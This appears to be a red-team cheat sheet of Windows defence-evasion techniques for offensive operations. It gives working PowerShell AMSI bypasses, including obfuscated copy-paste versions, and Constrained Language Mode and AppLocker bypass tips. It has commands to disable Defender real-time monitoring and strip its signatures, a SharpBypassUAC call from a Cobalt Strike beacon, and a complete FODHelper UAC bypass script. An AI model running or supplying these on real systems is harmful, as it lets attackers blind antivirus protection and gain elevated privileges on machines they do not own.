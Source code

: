 ## AMSI
### PowerShell AMSI Bypass

Patching AMSI will help bypass AV warnings triggered when executing PowerShell scripts that are marked as malicious (such as PowerView). Do not use as-is in covert operations, as they will get flagged 🚩. Obfuscate, or even better, eliminate the need for an AMSI bypass altogether by altering your scripts to beat signature-based detection.

- ‘Plain’ AMSI bypass:

	```powershell
	[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
	```

- Obfuscation example for copy-paste purposes:

	```powershell
	sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
	```

- Another bypass, which is not detected by PowerShell autologging:

	```powershell
	[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
	```

> More bypasses [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell). For obfuscation, check [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), or get a pre-generated obfuscated version at [amsi.fail](https://amsi.fail/).

***

## Powershell CLM
### Enumeration
Sometimes you may find yourself in a PowerShell session that enforces Constrained Language Mode (CLM). This is very often the case when paired with AppLocker (see above).

You can identify you’re in constrained language mode by polling the following variable to get the current language mode. It will say `FullLanguage` for an unrestricted session, and `ConstrainedLanguage` for CLM. There are other language modes which I will not go into here.

```powershell
$ExecutionContext.SessionState.LanguageMode
```

### Bypasses
The constraints posed by CLM will block many of your exploitations attempts. One quick and dirty bypass is to use in-line functions, which sometimes works - if e.g. `whoami` is blocked, try the following:

```powershell
&{whoami}
```
- Use Powershell V2, If available
- Invoke powershell without using powershell.exe
	- [p3nt4/PowerShdll: Run PowerShell with rundll32. Bypass software restrictions. (github.com)](https://github.com/p3nt4/PowerShdll)

***


## AppLocker
### Enumeration
Identify AppLocker policy. Look for exempted binaries or paths to bypass.

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Bypasses
Some high-level bypass techniques:

-   Use [LOLBAS](https://lolbas-project.github.io/) if only (Microsoft-)signed binaries are allowed.
-   If binaries from `C:\Windows` are allowed, try dropping your binaries to `C:\Windows\Temp` or `C:\Windows\Tasks`. If there are no writable subdirectories but writable files exist in this directory tree, write your file to an alternate data stream (e.g. a JScript script) and execute it from there.
-   Wrap your binaries in a DLL file and execute them with `rundll32` to bypass executable rules. If binaries like Python are allowed, use that. If that doesn’t work, try other techniques such as wrapping JScript in a HTA file or running XSL files with `wmic`.

***


## Defender
### Disable defender

👀🚩

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableIOAVProtection $true
```

Or leave Defender enabled, and just remove the signatures from it.

```powershell
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
***
### UAC Bypass

Using [SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC).

```bash
# Generate EncodedCommand
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64

# Use SharpBypassUAC e.g. from a CobaltStrike beacon
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ==
```

In some cases, you may get away better with running a manual UAC bypass, such as the FODHelper bypass which is quite simple to execute in PowerShell.

```powershell
# The command to execute in high integrity context
$cmd = "cmd /c start powershell.exe"
 
# Set the registry values
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
 
# Trigger fodhelper to perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
# Clean registry
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```